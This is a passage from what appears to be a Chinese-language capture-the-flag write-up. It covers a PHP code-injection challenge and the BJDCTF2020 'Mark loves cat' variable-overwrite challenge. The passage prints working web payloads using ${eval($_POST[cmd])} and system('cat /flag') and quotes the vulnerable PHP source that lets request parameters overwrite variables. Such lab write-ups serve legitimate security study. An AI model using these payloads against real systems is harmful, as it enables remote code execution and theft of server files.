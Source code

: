 **解法一**：使用源码中给的函数

`/next.php?\S*=${getflag()}&cmd=show_source(""/flag");`

**解法二**：通过POST传参

```
next.php?\S*=${eval($_POST[cmd])};
aaa=system("cat /flag");
```

或者GET：

```php
next.php?\S*=next.php?\S*=${eval($_GET[aaa])}&aaa=system("cat /flag");
```



# 0x25.[BJDCTF2020]Mark loves cat

>   考点：变量覆盖

dirsearch扫完有git泄露

然后我githack搞了好久需要的文件就是tmd出不来。。。

直接看网上的：

```php
<?php
include 'flag.php';
$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;"
```

